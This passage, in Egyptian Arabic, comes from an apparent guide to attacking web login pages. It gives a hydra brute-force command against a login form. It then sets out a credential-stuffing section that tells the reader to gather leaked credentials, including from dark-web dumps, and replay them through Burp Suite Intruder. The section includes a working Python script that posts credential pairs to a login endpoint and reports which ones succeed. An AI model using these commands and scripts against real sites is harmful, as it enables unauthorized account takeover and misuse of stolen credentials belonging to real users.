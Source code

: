     - `http-post-form`: حدد مسار النموذج والبيانات.
    - `F=incorrect`: النص اللي بيظهر في رد الفشل (مثل "كلمة المرور غلط").
  - مع أكتر من اسم مستخدم:
    ```bash
    hydra -L usernames.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
    ```
  - عدل البيانات بناءً على فحص النموذج (مثل `login` بدل `username`).

---

## **المحاولة الرابعة: Credential Stuffing ببيانات مسربة**
**الهدف**: نشوف إذا كان الحسابات معرضة لكلمات مرور مستخدمة في مواقع تانية تم تسريبها.
- **الخطوات**:
  1. جيب قائمة ببيانات مسربة من قواعد بيانات عامة (مثل HaveIBeenPwned أو تسريبات الدارك ويب، بشكل أخلاقي).
  2. استخرج أسماء المستخدمين/الإيميلات وكلمات المرور اللي ممكن تكون متعلقة بالموقع.
  3. استخدم Burp Suite Intruder أو سكربت مخصص عشان تختبر البيانات دي على صفحة تسجيل الدخول.
  4. راقب إذا فيه تسجيلات ناجحة أو قيود على المحاولات.
- **البيانات اللي هنجربها**:
  - أزواج بيانات (مثل `user@example.com:password123`، `admin:admin123`).
  - مثال قائمة:
    ```
    user1@example.com:qwerty
    user2@example.com:123456
    admin@example.com:Password1
    ```
- **النتيجة المتوقعة**:
  - نجاح: تسجيل دخول ببيانات مسربة، يعني المستخدمين بيعيدوا استخدام كلمات المرور.
  - فشل: مفيش تسجيلات ناجحة أو فيه قيود على المحاولات.
- **الأدوات**:
  - **Burp Suite Intruder**:
    - اعترض طلب تسجيل الدخول.
    - حدد أماكن `username` و`password` للبيانات.
    - حمل قائمة البيانات وابدأ الهجوم.
  - **سكربت Python** (باستخدام `requests`):
    ```python
    import requests

    url = "https://target.com/login"
    credentials = [
        {"username": "user1@example.com", "password": "qwerty"},
        {"username": "user2@example.com", "password": "123456"}
    ]

    for cred in credentials:
        response = requests.post(url, data={"username": cred["username"], "password": cred["password"]})
        if "incorrect" not in response.text.lower():
            print(f"نجاح: {cred['username']}:{cred['password']}")
        else:
            print(f"فشل: {cred['username']}:{cred['password']}")
    ```
- **الأوامر**:
  - Burp Intruder: جهز قائمة البيانات وابدأ.
  - Python: `python credential_stuffing.py` (احفظ السكربت فوق).

---